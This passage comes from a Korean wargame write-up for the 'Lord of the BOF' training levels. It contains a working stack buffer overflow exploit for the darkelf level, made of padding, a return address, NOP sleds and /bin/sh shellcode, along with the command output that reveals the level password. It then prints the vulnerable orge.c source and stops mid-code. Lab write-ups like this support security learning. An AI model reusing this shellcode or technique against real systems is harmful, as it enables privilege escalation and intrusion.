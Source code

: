 argv[2] 즉 쉘코드의 주소는 0xbffffaaa이다.

따라서 다음과 같은 익스플로잇 코드를 작성할 수 있다.

argv[1] = "A"*44 (dummy byte)
+"\xaa\xfa\xff\xbf" (shellcode addr)

argv[2] = "\x90"*200 (Nop Sled)
+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" (shellcode)
+"\x90"*200 (Nop Sled)

``` bash2
[wolfman@localhost wolfman]$ ~/darkelf `python -c 'print "A"*44+"\xaa\xfa\xff\xbf"'` `python -c 'print "\x90"*200+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*200'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?
bash$ id
uid=505(wolfman) gid=505(wolfman) euid=506(darkelf) egid=506(darkelf) groups=505(wolfman)
bash$ my-pass
euid = 506
kernel crashed
```

# darkelf

password is kernel crashed

### Problem

``` bash2
[darkelf@localhost darkelf]$ cat orge.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// here is changed!
	if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
```